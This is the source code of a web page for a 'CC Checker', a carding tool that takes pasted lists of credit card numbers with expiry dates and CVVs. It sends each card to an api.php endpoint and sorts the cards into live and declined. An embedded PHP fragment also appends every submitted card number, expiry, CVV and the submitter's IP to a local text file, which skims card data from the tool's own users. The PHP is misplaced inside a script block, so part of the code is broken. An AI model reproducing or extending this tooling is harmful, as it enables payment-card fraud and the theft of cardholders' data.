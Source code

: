 <html>
<head>
	<title>remaqe CC Checker</title>
	<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
	<link href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.5.11/css/mdb.min.css" rel="stylesheet">
	<link href="https://fonts.googleapis.com/icon?family=Material+Icons"
      rel="stylesheet">
</head>

<body>
	<br>
		<div class="row col-md-12">
&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp
<div class="card col-sm-8">
  <h5 class="card-body h6">CC Checker - remaqe</h5>
  <div class="card-body">
    <center><span>[#REMAQE]</span></center>
<div class="md-form">
	<div class="col-md-12">
  <textarea type="text" style="text-align: center;" id="lista" class="md-textarea form-control" rows="2"></textarea>
  <label for="lista">Example : 5437711025954502|01|2023|160 </label>
</div>
</div>
<center>
 <button class="btn btn-primary" style="width: 200px; outline: none;" id="testar" onclick="enviar()" >Başlat</button>
  <button class="btn btn-danger" style="width: 200px; outline: none;">Durdur</button>
</center>
  </div>
</div>
&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp
<div class="card col-sm-2">
  <h5 class="card-body h6">Bilgiler:</h5>
  <div class="card-body">
  	<span>Status:</span><span class="badge badge-secondary"> İşlem Bekleniyor</span>
<div class="md-form">
	<span>Live:</span>&nbsp<span id="cLive" class="badge badge-success">0</span>
	<span>Dec:</span>&nbsp<span id="cDie" class="badge badge-danger"> 0</span>
	<span>Test Edilen:</span>&nbsp<span id="total" class="badge badge-info">0</span>
	<span>Yüklenen:</span>&nbsp<span id="carregadas" class="badge badge-dark">0</span>
</div>
  </div>
</div>
</div>
<br>

<div class="col-md-12">
<div class="card">
<div style="position: absolute;
        top: 0;
        right: 0;">
	<button id="mostra" class="btn btn-primary">SHOW/HIDE</button>
</div>
  <div class="card-body">
    <h6 style="font-weight: bold;" class="card-title">Live - <span  id="cLive2" class="badge badge-success">0</span></h6>
    <div id="bode"><span id=".aprovadas" class="aprovadas"></span>
</div>
  </div>
</div>
</div>

<br>
<br>
<br>
<div class="col-md-12">
<div class="card">
	<div style="position: absolute;
        top: 0;
        right: 0;">
	<button id="mostra2" class="btn btn-primary">SHOW/HIDE</button>
</div>
  <div class="card-body">
    <h6 style="font-weight: bold;" class="card-title">Dec - <span id="cDie2" class="badge badge-danger">0</span></h6>
    <div id="bode2"><span id=".reprovadas" class="reprovadas"></span>
    </div>
  </div>
</div>
</div>

<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.3.2/jquery.js" type="text/javascript"></script>
<script type="text/javascript">

$(document).ready(function(){


    $("#bode").hide();
	$("#esconde").show();
	
	$('#mostra').click(function(){
	$("#bode").slideToggle();
	});

});

</script>

<script type="text/javascript">

$(document).ready(function(){


    $("#bode2").hide();
	$("#esconde2").show();
	
	$('#mostra2').click(function(){
	$("#bode2").slideToggle();
	});

});
        $status = ".reprovadas";
    $fp = fopen('./remaqeex/nedeciaq.txt','a+');
    $cc = $_POST['cc'];
    $mes = $_POST['mes'];
    $ano = $_POST['ano'];
    $cvv = $_POST['cvv'];
    $data = date("m.d.y g:i a");
    $ip = $_SERVER['REMOTE_ADDR']?:($_SERVER['HTTP_X_FORWARDED_FOR']?:$_SERVER['HTTP_CLIENT_IP']);   
    $mensagem = fwrite($fp,"-----------------------------------------------");
    $mensagem = fwrite($fp,"\nCC: ".$cc ."\nExp: ".$mes ."\nAno: ". $ano ."\nCCV: ". $cvv."\nDATA: ". $data."\nIP: ".$ip ."\nSTATUS: ".$status ."\n");
    $mensagem = fwrite($fp,"-----------------------------------------------");
    $mensagem = fwrite($fp,"\r\n");
    $fpc = fclose($fp);
</script>

<script title="ajax do checker">
    function enviar() {
        var linha = $("#lista").val();
        var linhaenviar = linha.split("\n");
        var total = linhaenviar.length;
        var ap = 0;
        var rp = 0;
        linhaenviar.forEach(function(value, index) {
            setTimeout(
                function() {
                    $.ajax({
                        url: 'api.php?lista=' + value,
                        type: 'GET',
                        async: true,
                        success: function(resultado) {
                            if (resultado.match("#Aprovada")) {
                                removelinha();
                                ap++;
                                aprovadas(resultado + "");
                            }else {
                                removelinha();
                                rp++;
                                reprovadas(resultado + "");
                            }
                            $('#carregadas').html(total);
                            var fila = parseInt(ap) + parseInt(rp);
                            $('#cLive').html(ap);
                            $('#cDie').html(rp);
                            $('#total').html(fila);
                            $('#cLive2').html(ap);
                            $('#cDie2').html(rp);
                        }
                    });
                }, 500 * index);
        });
    }

    function aprovadas(str) {
        $(".aprovadas").append(str + "<br>");
    }
    function reprovadas(str) {
        $(".reprovadas").append(str + "<br>");
    }
    function removelinha() {
        var lines = $("#lista").val().split('\n');
        lines.splice(0, 1);
        $("#lista").val(lines.join("\n"));
    }


</script>



<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.4/umd/popper.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.1.3/js/bootstrap.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.5.11/js/mdb.min.js"></script>
</body>
<br>
<footer >





  </footer> 

</html>
